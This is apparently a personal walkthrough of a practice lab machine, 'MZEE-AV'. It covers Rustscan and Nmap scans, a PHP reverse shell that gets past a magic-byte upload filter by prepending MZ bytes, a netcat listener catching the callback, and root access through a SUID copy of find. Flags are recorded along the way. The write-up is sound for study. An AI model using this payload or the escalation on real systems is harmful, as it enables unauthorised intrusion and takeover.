

## Room Link

N/A

## Credentials

```text
```

## 1. Port Scan

### Rustscan

```bash
[+][4:20][CPU:17][MEM:70][TUN0:192.168.45.166][/home/n0z0]
$ rustscan -a $ip -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Breaking and entering... into the world of open ports.

[~] The config file is expected to be at "/home/n0z0/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.178.33:22
Open 192.168.178.33:80

```

### Nmap

```bash
[+][4:20][CPU:18][MEM:69][TUN0:192.168.45.166][/home/n0z0]
$ timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/${timestamp}_${ip}.xml"

grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"

echo -e "\e[32mScan result saved to: $output_file\e[0m"
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-23 04:20 JST
Nmap scan report for 192.168.178.33
Host is up (0.087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey:
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: MZEE-AV - Check your files
|_http-server-header: Apache/2.4.56 (Debian)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   90.98 ms 192.168.45.1
2   90.97 ms 192.168.45.254
3   91.00 ms 192.168.251.1
4   91.09 ms 192.168.178.33

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.09 seconds
Scan result saved to: /home/n0z0/work/scans/20260223-042024_192.168.178.33.xml

```

## 2. Local Shell

### Build a reverse shell payload

```bash
printf '\x4D\x5A' > rev.php
cat >> rev.php << 'EOF'
<?php
set_time_limit(0);
$ip = '192.168.45.166';
$port = 4444;
$sock = fsockopen($ip, $port);
$descriptorspec = array(0 => $sock, 1 => $sock, 2 => $sock);
$process = proc_open('/bin/sh', $descriptorspec, $pipes);
proc_close($process);
?>
EOF
```

### Reverse shell

```bash
[-][11:22][CPU:3][MEM:67][TUN0:192.168.45.166][/home/n0z0]
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.33] 35914

python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mzeeav:/var/www/html/upload$ ^Z
zsh: suspended  nc -lvnp 4444

```

Retrieved `local.txt`:

```bash
www-data@mzeeav:/var/www/html/upload$ find / -iname local.txt 2>/dev/null
/home/avuser/local.txt
www-data@mzeeav:/var/www/html/upload$ cat /home/avuser/local.txt
6eb7d0e197ab9ac2ef205bd68cef6864

```

## Why it worked

### Attack flow

```text
Create rev.php with MZ bytes -> upload -> bypass filter -> execute as PHP -> get reverse shell
```

### 1) Magic-byte bypass

`upload.php` checked only this:

```php
$magic = fread($F, 2);          // Read only first 2 bytes
$magicbytes = bin2hex($magic);  // Convert to hex
if (strpos($magicbytes, '4D5A') === false)  // Check if MZ
    exit();  // Reject if not MZ
```

So any file passed as long as the first two bytes were `4D5A` (ASCII `MZ`).

By prepending `printf '\x4D\x5A'`, the PHP file was disguised as a PE-like file and bypassed validation.

### 2) PHP ignores bytes before `<?php`

PHP ignores content before it finds a `<?php` tag and treats it as output.

```text
4D 5A          <- ignored junk bytes (MZ)
<?php ... ?>   <- interpreted and executed as PHP
```

That is why the script still executed correctly even with MZ bytes at the beginning.

### PE files (Portable Executable)

PE is the executable format used on Windows (`.exe`, `.dll`).

All PE files begin with `4D 5A` (`MZ`) as the first two bytes:

```text
4D 5A 90 00 03 00 ...
M  Z  <- magic bytes
```

`MZ` comes from the initials of Mark Zbikowski (MS-DOS era).

### Why the server used PE checks

The intent was likely to allow only executable uploads such as `.exe` and block PHP scripts by checking for `MZ`.

But in practice:

```text
Checked: first 2 bytes are MZ
Not checked: extension / full file content / MIME type
```

Because validation was incomplete, an MZ-prefixed PHP payload got through.

### Summary table

| Step | What was done | Key point |
|---|---|---|
| Filter analysis | Read the code and identified it only checked the first 2 bytes | Incomplete validation |
| File disguise | Prepended `\x4D\x5A` | MZ byte pattern used as fake PE marker |
| PHP execution | Server executed by `.php` extension | No extension restriction |
| Shell access | `fsockopen` callback | Reverse shell established |

## 3. Privilege Escalation

Found an unusual SUID binary:

```bash
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/opt/fileS

```

`--help` output showed it behaves like `find`:

```bash
www-data@mzeeav:/opt$ ./fileS --help
Usage: ./fileS [-H] [-L] [-P] [-Olevel] [-D debugopts] [path...] [expression]

default path is the current directory; default expression is -print
expression may consist of: operators, options, tests, and actions:
operators (decreasing precedence; -and is implicit where no others are given):
      ( EXPR )   ! EXPR   -not EXPR   EXPR1 -a EXPR2   EXPR1 -and EXPR2
      EXPR1 -o EXPR2   EXPR1 -or EXPR2   EXPR1 , EXPR2
positional options (always true): -daystart -follow -regextype

normal options (always true, specified before other expressions):
      -depth --help -maxdepth LEVELS -mindepth LEVELS -mount -noleaf
      --version -xdev -ignore_readdir_race -noignore_readdir_race
tests (N can be +N or -N or N): -amin N -anewer FILE -atime N -cmin N
      -cnewer FILE -ctime N -empty -false -fstype TYPE -gid N -group NAME
      -ilname PATTERN -iname PATTERN -inum N -iwholename PATTERN -iregex PATTERN
      -links N -lname PATTERN -mmin N -mtime N -name PATTERN -newer FILE
      -nouser -nogroup -path PATTERN -perm [-/]MODE -regex PATTERN
      -readable -writable -executable
      -wholename PATTERN -size N[bcwkMG] -true -type [bcdpflsD] -uid N
      -used N -user NAME -xtype [bcdpfls]      -context CONTEXT

actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;

Valid arguments for -D:
exec, opt, rates, search, stat, time, tree, all, help
Use '-D help' for a description of the options, or see find(1)

Please see also the documentation at http://www.gnu.org/software/findutils/.
You can report (and track progress on fixing) bugs in the "./fileS"
program via the GNU findutils bug-reporting page at
https://savannah.gnu.org/bugs/?group=findutils or, if
you have no web access, by sending email to <bug-findutils@gnu.org>.
www-data@mzeeav:/opt$

```

SUID permission on `/opt/fileS`:

```bash
www-data@mzeeav:/opt$ ls -la
total 312
drwxr-xr-x  2 root root   4096 Nov 14  2023 .
drwxr-xr-x 18 root root   4096 Nov 13  2023 ..
---s--s--x  1 root root 311008 Nov 14  2023 fileS

```

Using GTFOBins (`find` SUID):
https://gtfobins.org/gtfobins/find/

```bash
www-data@mzeeav:/opt$ ./fileS . -exec /bin/bash -p \; -quit
bash-5.1#

```

Retrieved `proof.txt`:

```bash
bash-5.1# cat /root/proof.txt
31c145840f70f2874b049253e763e9ce

```

## 4. Attack Flow


